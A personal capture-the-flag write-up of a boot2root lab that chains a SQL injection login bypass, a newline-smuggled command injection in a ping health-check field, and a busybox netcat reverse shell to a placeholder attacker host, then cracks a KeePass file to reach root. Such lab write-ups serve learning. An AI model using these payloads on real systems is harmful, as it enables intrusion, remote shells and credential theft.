# Silent Monitor Write-up



Welcome to my write-up of the silent monitor room, a boot2root CTF challenge. Judging by the introduction of the room, we will need to exploit a vulnerable web application, find a way into the system, and escalate our privileges to root. 

## Reconnaissance

The first think you do when it comes to pentesting is to gather information about the system. We start with a port scan, as usual

```bash
nmap -sC -sV TARGET
```



Only two ports are open, and the web application runs on port 5050, which is unusual for HTTP. When visiting the web application, make sure to request it over port 5050



There are no other links listed on the website, and checking the source code also didn't show anything. Since this doesn't offer any room for manual enumeration, we could try if we find a hidden page with gobuster. 

```bash
gobuster dir -u http://TARGET_IP:5050 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x.php,.txt
```



There is a `/internal` page on the application. We can visit it and are presented with a login form



The first thing you want to check is whether they are using default credentials or not. I like to try credentials like `admin:admin` and `admin:password` first, as well as some other most common passwords. If that fails, I try SQL injection

## Exploitation

A SQL injection actually works here. Not in the password field, but in the user field. Usually, the first thing I try is `admin:abc' OR 1=1;--`, if that fails, I try some other options like `admin';--:abc`. When trying to inject SQL in the user field, the following injection did work:

```txt
user: admin' OR 1=1;--
password: 
```

That's a pretty common SQL injection attempt which I usually try if my first approaches don't work. Pretty easy win if you find it, as you don't need to set up a whole tool like sqlmap if you suspect SQL injection. 



Look at the picture. I noticed in the audit log, there are two commands, one being just the local host, and the other being `whoami`. You can also see someone already exploited the same SQL injection vulnerability. There's likely someone who tried to compromise the application through command injection after the first logon. 

The `event` field in the audit log suggests that the command injection attempt happend as a `HEALTH_CHECK`. If you look at the top left side of the internal site, you see a `Host Health` section. Clicking on it gives you access to a field where you can check if a host responds, basically the `ping` command. 



This explains why the previous mentioned two commands were `127.0.0.1%0awhoami`. The application takes an IP address as input and performs the `ping` command with it. However, with command injection, we can inject any other command in there as well. The `%0a` in the command field is the hexadecimal value of a Line feed (LF), also known as the `\n` character if you are familiar with programming. 

With that in mind, the usual command injection approach `Legit_command; attacker injected` wont work. I tried to copy the command from the audit log `127.0.0.1%0awhoami`, but that doesn't work. 

I've been playing around with it for a while, trying different approaches. I've also checked the Network tab from the dev tools to inspect the requests. `127.0.0.1%0awhoami` gets turned into `127.0.0.1%250awhoami`. So the problem is, that every character gets properly URL encoded, which is a good practice. My `%` got turned into `%25`, thus it never worked



Now we could change the body payload to the `%0a` with developer tools, and it would work. However, doing that with burp suite is way more comfortable and better for showcasing, especially if we want to establish a reverse shell later. Turn on the burp proxy, click on the `Run probe` button on the page, modify the `target` value to `127.0.0.1%0awhoami` and forward it to the server





Since we know command injection works, we just need to send a reverse shell payload, and add it to the `target` field of the POST body. I am using a `busybox` reverse shell, as it works the best for me. You can find several reverse shells on [revshells](https://www.revshells.com/)

## Initial access

1. Start a listener: `busybox nc -lvnp`
2. Change the value of the `target` field to: `127.0.0.1%0abusybox nc ATTACKER 4444 -e /bin/sh`
3. Forward it to the application and wait for connection



I wanted to check which users have a home directory. Sysadmin is an account we would be really interested in, but don't have permission to. I changed back to the default directory of the `www-data` account, and checked what's in there. I noticed a `secret.config` file, and such files usually contain valuable information about the system. 



Oh well, turns out we could've skipped straight to a ssh login as the service account `sysadmin` instead of establishing an unstable reverse shell. Nothing stopped us from just reading the contents of that file through the vulnerable Host health feature. 



Do you notice the `backup` directory? There is a `infrastructure.kdbx` file. It's a KeePass file. KeePass is a type of password manager that stores passwords in an encrypted database. I know these KeePass files from a previous CTF challenge. You usually need a password to decrypt the entries. My first Idea was to brute force that password/key

First of all, I transferred the file to my attack box
```bash
scp sysadmin@target:backups/infrastructure.kdbx .
```

I then found this Blog [Cracking a KeePass database](https://thinglab.org/2025/02/cracking_keepass/), as I never really brute forced a kdbx file. Turns out the KeePass password manager doesn't have any brute force protection, and john has a tool called `keepass2john` which converts a `.kdbx` file to a format john can attempt to crack. Although I prefer hashcat for cracking, as GPU-based cracking is faster, I wanted to give it a try. The blog post didn't show how to crack it with a wordlist, but I knew that syntax for john



Now we just need to open the file with the cracked password



Last but not least, switch the user to root and get that final flag! 




## Conclusion

As always, a really fun CTF challenge. We found out that a webapplication was running on port 5050. The `/internal` path and also the SQL injection have been identified quickly. After inspecting the Host health feature on the internal interface for a while, a command injection vulnerability was exploited successfully. It was used to read sensitive files, with which we were able to ssh to another user, and from there bruteforce a keepass file which gave the root password! 

#### Reflection

I've been enjoying boot2root challenges so much recently, as I finally worked through the whole Jr pentester path on TryHackMe. Also, I didn't struggle as much as I used to, as I recognize vulnerabilities more easily now. I also learned how to adapt when my usual approach didn't work, like the command injection approach. I didn't know you could also work with `\n` characters, I always used `;`. I'm looking forward for more boot2root challenges! 
